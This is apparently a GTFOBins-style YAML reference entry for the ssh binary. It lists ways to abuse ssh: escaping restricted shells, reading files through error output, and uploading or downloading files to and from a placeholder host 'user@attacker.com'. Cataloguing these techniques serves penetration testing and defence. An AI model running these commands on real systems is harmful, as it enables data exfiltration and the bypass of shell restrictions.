 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=where_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=where_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  file-read:
    - description: Read lines from text files (error-based approach).
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
---
```

